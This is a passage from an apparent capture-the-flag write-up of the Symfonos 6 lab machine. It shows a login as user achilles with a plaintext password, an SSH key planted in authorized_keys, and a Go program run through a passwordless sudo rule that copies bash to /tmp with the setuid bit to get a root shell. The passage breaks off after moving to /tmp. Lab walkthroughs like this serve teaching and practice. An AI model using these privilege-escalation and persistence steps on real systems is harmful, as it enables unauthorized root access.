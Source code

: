 Letrs try to log in as achilles


```bash

[git@symfonos6 vuln.git]$  su achilles
 su achilles
Password: h2sBr9gryBunKdF9
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
whoami
achilles


┌──(kali㉿kali)-[~/Downloads]
└─$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa):
Created directory '/home/kali/.ssh'.

┌──(kali㉿kali)-[~/Downloads]
└─$ cat /home/kali/.ssh/id_rsa.pub | xclip -sel clip

Modified 

[achilles@symfonos6 .ssh]$ vi authorized_keys
[achilles@symfonos6 .ssh]$ ls
authorized_keys  id_rsa  id_rsa.pub

```
Now I can ssh to the machine using user achilles

Once logged in
```bash
[achilles@symfonos6 ~]$ sudo -l

User achilles may run the following commands on symfonos6:
    (ALL) NOPASSWD: /usr/local/go/bin/go
```

Seems we use **go** to copy a new **bash** to /tmp/ and give a setuid permission.

https://www.golinuxcloud.com/golang-exec-shell-commands/

```go

package main

import (
    "fmt"
    "log"
    "os/exec"
)

func main() {
    out, err := exec.Command("/bin/bash", "-c", "cp /bin/bash /tmp/pwnshell; chmod +xs /tmp/pwnshell").Output()
    if err != nil {
        log.Fatal(err)
    }
    fmt.Println(string(out))
}

```
```bash

[achilles@symfonos6 ~]$ sudo -u root  /usr/local/go/bin/go run exploit.go
[achilles@symfonos6 ~]$ cd /tmp/
```
